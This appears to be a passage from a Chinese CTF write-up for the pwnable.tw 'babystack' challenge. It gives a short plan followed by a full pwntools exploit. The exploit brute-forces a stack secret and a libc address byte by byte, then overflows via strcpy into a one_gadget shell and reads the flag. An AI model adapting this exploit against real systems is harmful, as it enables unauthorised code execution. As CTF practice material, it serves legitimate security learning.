 然后是复制功能复制的时候用了`strcpy(a1, &src);`
而且src没有初始化所以我们可以先在check里面在栈上留下东西然后会在strcpy的时候也一同复制过去

## 思路
* 通过爆破获得随机数（为了绕最后的类似canary）
* 通过未初始化变量和strcpy做buffer overflow
* 因为地址无法将8字节填满所以只能使用一个地址因为没有后门然后又提供了libc所以就去找泄露跳one_gadget
* 没有输出点但是可以通过吧一些东西移到本来是随机数的地方然后爆破出来
* 恰好strcpy之后移上去的后8字节是libc内地址爆出来之后跳one_gadget
## exp
```python
from pwn import *
def cmd(c):
	p.sendafter(">> ",c)
def cmp(payload):
	cmd("1\n")
	p.sendafter("owrd :",'{}\x00'.format(payload))
	res=p.readline()
	return res
#p=process("./babystack",env={'LD_PRELOAD':'./libc_64.so.6'})
p=remote("chall.pwnable.tw",10205)
#context.log_level='debug'
sec=""

for y in range(0x10):
	for x in range(1,256):
		if "Success" in cmp(sec+chr(x)):
			cmd("1\n")
			sec+=chr(x)
			break
log.success("====PartI Finished====")
pay="\x00"
pay=pay.ljust(0x48,'\xaa')
cmd("1\n")
p.sendafter("owrd :",'{}'.format(pay))
cmd("3\n")
p.sendafter("Copy :","A"*0x3f)
# now we can burp the libc_base
nier='\xaa'*8
cmd("1\n")
for y in range(0x6):
	for x in range(1,256):
		if "Success" in cmp(nier+chr(x)):
			cmd("1\n")
			nier+=chr(x)
			break
base=u64(nier[8:].ljust(8,'\x00'))-(0x7ffff7a85439-0x00007ffff7a0d000)
log.warning(hex(base))
log.success("====PartII Finished====")

pay='\x00'+'\xdd'*0x3f+sec+p64(0xdeadbeefdeadbeef)+"\xDD"*0x10+p64(base+0x45216)
pay=pay.ljust(0x7f,'\xaa')
cmd("1\n")
p.sendafter("owrd :",'{}'.format(pay))
cmd("3\n")
p.sendafter("Copy :","A"*0x3f)
#gdb.attach(p,'b * 0x000000000000EBB+0x0000555555554000')
#0x7fffffffde50 sec
cmd("2\n")
log.success("====Pwned====")
p.sendline("cat /home/babystack/flag")
p.interactive()
```

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert